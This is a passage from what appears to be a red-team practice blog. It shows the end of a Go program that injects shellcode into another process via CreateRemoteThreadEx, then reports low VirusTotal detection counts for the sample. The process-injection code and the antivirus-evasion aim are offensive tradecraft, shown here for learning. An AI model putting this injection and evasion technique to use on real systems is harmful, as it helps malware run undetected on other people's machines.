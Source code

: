 ```go
    addr,
    (uintptr)(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)),
  )

  CreateRemoteThreadEx.Call(
    uintptr(procHandle),
    0,
    0,
    addr,
    0,
    0,
    0,
  )

  _, _, err = CloseHandle.Call(procHandle)
  if err != nil {
    log.Fatal(err)
  }
}
```

Once we've completed this, we're ready to upload it to ***VirusTotal***

You have the source code [here](https://github.com/D3Ext/malware-practices) on my Github

# Results

The old one had 7 detections which already is a really low rate

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice1/virustotal-createremotethread.png" alt="pic">
